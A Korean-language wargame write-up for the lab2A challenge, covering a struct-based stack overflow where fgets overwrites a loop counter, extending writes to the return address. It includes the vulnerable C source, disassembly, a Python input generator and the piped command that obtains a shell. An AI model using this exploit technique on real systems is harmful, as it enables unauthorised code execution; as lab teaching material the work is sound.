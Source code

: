 ## 1. 문제 확인
- ID : lab2A
- Target : /level/lab02/lab2A
- flag : /home/lab2end/.pass
```
	lab2A@warzone:/levels/lab02$ ./lab2A
	Input 10 words:
	1234567890
	abcdefg
	1111111111
	2222222222
	3333333333
	4444444444
	5555555555
	6666666666
	7777777777
	8888888888
	Here are the first characters from the 10 words concatenated:
	1a12345678
	Not authenticated
	lab2A@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2A.c -o lab2A
 	*/

	void shell()
	{
        printf("You got it\n");
        system("/bin/sh");
	}

	void concatenate_first_chars()
	{
        struct {
            char word_buf[12];
            int i;
            char* cat_pointer;
            char cat_buf[10];
    	} locals;
    	locals.cat_pointer = locals.cat_buf;

    	printf("Input 10 words:\n");
    	for(locals.i=0; locals.i!=10; locals.i++)
    	{
        	// Read from stdin
        	if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
        	{
            	printf("Failed to read word\n");
            	return;
        	}
        	// Copy first char from word to next location in concatenated buffer
        	*locals.cat_pointer = *locals.word_buf;
        	locals.cat_pointer++;
    	}

    	// Even if something goes wrong, there's a null byte here
    	//   preventing buffer overflows
    	locals.cat_buf[10] = '\0';
    	printf("Here are the first characters from the 10 words concatenated:\n\%s\n", locals.cat_buf);
	}

	int main(int argc, char** argv)
	{
        if(argc != 1)
        {
            printf("usage:\n%s\n", argv[0]);
            return EXIT_FAILURE;
        }

        concatenate_first_chars();

        printf("Not authenticated\n");
        return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
#### 2.2.1 concatenate_first_chars()
- word_buf 크기가 12byte인데 fgets()함수에서 16byte(0x10)를 입력받을 수 있으므로 4byte overflow 발생 가능
```c
    ...
    struct {
            char word_buf[12];
            int i;
            char* cat_pointer;
            char cat_buf[10];
    } locals;
    ...
    if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
    {
    ...
```
- word_buf 가 overflow 되면 i 값까지 덮어쓰게 되고, i 값이 10이 아니면 for문이 반복되므로 최종적으로 cat_buf 의 크기인 10byte보다 더 큰 값을 덮어쓸 수 있음
```c
    ...
    locals.cat_pointer = locals.cat_buf;

    printf("Input 10 words:\n");
	for(locals.i=0; locals.i!=10; locals.i++)
    {
    ...
    	*locals.cat_pointer = *locals.word_buf;
        locals.cat_pointer++;
    }
```
- fgets()함수를 통해 12byte 문자를 입력하면 Enter(0xa)까지 총 13byte가 word_buf 에 쓰여지고 다음 변수 i 까지 덮어쓰게 됨
  (※ i값이 0xa(10)부터 증가되므로 for문 조건에 의해 무한 반복됨)
```
    |-----------   word_buf  -----------| |---- i ----|
    [31 32 33 34 35 36 37 38 39 30 31 32] [0a 00 00 00]
      1  2  3  4  5  6  7  8  9  0  1  2   \n    
```
- for문을 반복하면서 word_buf 입력값의 첫 byte를 복사하여 cat_buf 에 순차적으로 붙여넣음
```
	...
    0x08048777 <+90>:    mov    eax,DWORD PTR [ebp-0x18]
    0x0804877a <+93>:    movzx  edx,BYTE PTR [ebp-0x28]
    0x0804877e <+97>:    mov    BYTE PTR [eax],dl
    0x08048780 <+99>:    mov    eax,DWORD PTR [ebp-0x18]
    0x08048783 <+102>:   add    eax,0x1
    0x08048786 <+105>:   mov    DWORD PTR [ebp-0x18],eax
    ...
```
- cat_buf 의 위치는 word_buf 위치(ebp-0x28)로부터 20byte(0x14) 떨어져 있으므로 ebp-0x14 가 되며 cat_buf 값이 20byte가 넘어가게 되면 SFP, RET 주소를 순차적으로 덮어쓰게 됨
```
  	0x0804871d <+0>:     push   ebp
  	0x0804871e <+1>:     mov    ebp,esp
   	0x08048720 <+3>:     sub    esp,0x38
   	0x08048723 <+6>:     lea    eax,[ebp-0x28]
   	0x08048726 <+9>:     add    eax,0x14
   	0x08048729 <+12>:    mov    DWORD PTR [ebp-0x18],eax
    ...
```

<br/><br/>
## 3. Exploit
- 변수 i 값을 변경하여 반복문 횟수를 늘리고 cat_buf 값이 리턴주소까지 덮어쓰도록 함 
```
    =============================================>
    [word_buf][i][cat_pointer][cat_buf][dummy][SFP][RET]
        12     4       4          10      10    4  main() <-- shell() 주소로 변경
```
- 쉘을 띄워줄 shell()함수의 주소를 확인하여 리턴주소로 사용함
```
	gdb-peda$ p shell
	$2 = {<text variable, no debug info>} 0x80486fd <shell>
	gdb-peda$
```
- 다음 코드를 실행하여 입력 데이터를 생성함
```python
    print("a"*12)
    
    for i in range(23):
    	print("b")
        
    print("\xfd")
    print("\x86")
    print("\x04")
    print("\x08")
    
    print("")  // for문 강제 종료를 위한 입력
```
- 생성된 입력값을 전달하여 프로그램을 실행해주면 됨
  (※ 파이프는 cat 명령의 결과값만 전달하기 때문에 ;cat 명령을 추가하여 쉘이 input을 받을 수 있도록 해줘야 함)
```
	lab2A@warzone:/levels/lab02$ python /tmp/lab2a.py > /tmp/lab2a_input
	lab2A@warzone:/levels/lab02$ (cat /tmp/lab2a_input;cat) | ./lab2A
	Input 10 words:
	Failed to read word
	You got it
	id
	uid=1008(lab2A) gid=1009(lab2A) euid=1009(lab2end) groups=1010(lab2end),1001(gameuser),1009(lab2A)
```
